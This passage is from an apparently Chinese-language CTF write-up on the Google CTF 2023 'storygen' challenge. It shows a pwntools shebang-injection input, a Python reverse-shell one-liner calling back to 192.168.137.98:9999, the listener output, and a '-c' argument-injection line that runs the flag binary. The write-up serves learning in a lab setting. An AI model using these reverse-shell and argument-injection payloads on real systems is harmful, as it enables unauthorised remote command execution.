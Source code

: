 ```py
```
本地测试时发现可以使用 python 直接进入交互式命令行.
```py
sla("What's your name?\n", b"!/usr/bin/python3 -\0")
```
输入反弹 shell payload
```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.137.98",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
结束 pwntools 的交互之后，可以接收到反弹 shell
```bash
connect to [192.168.137.98] from (UNKNOWN) [192.168.137.98] 53464
$ ls
```
但这种方式在目标上无法成功，原因不详。

除了交互式命令行，也可以使用 -c，但注意需要将 -c 与 python 代码连接在一起，作为一个参数进行传入.
```python
sla("What's your name?\n", b"!/usr/bin/python -c__import__(\"os\").system(\"/get_flag Give flag please\")\0'")
```
# 参考资料
- [Linux Restricted Shell Bypass - VK9 Security](https://vk9-sec.com/linux-restricted-shell-bypass/)
- [google-ctf/2023/pwn-storygen/solution at master · google/google-ctf · GitHub](https://github.com/google/google-ctf/tree/master/2023/pwn-storygen/solution)
- [从escapeshellcmd讲参数注入](http://blog.kuron3k0.vip/2020/08/12/argument-injection/)
- [GTFOBins](https://gtfobins.github.io/)